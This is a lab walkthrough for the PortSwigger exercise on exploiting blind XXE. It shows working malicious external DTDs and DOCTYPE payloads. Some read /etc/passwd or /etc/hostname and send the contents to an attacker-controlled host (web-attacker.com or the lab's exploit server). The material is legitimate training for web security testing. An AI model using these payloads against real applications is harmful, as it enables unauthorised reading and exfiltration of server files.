



## Exploiting blind XXE to exfiltrate data using a malicious external DTD

**Title:** Exploiting blind XXE to exfiltrate data using a malicious external DTD. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

**Description:**
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

## Preface

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:
`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
``` XML
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

**Note**
This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.

## Methodology

### Finding the vulnerable parameter

At first we stored the malicious DTD file in our exploit server by clicking `Go to exploit server`. We made a note of the URL by clicking  `View exploit`. 

``` XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0aba0011039dfa3383e9908a01460074.exploit-server.net/exploit/?x=%file;'>">
%eval;
%exfiltrate;
```

Then we need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, we visited a product page and clicked "Check stock", and intercepted the resulting POST request in Burp Suite. We inserted the following external entity definition in between the XML declaration and the `stockCheck` element:
``` XML 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aba0011039dfa3383e9908a01460074.exploit-server.net/exploit"> %xxe;]>
```
At last we sent the request and the response shows `XML parsing error`. Then we checked the access log of our exploit server. While checking the log file of our exploit server we are interested in `GET /exploit/?x` request.






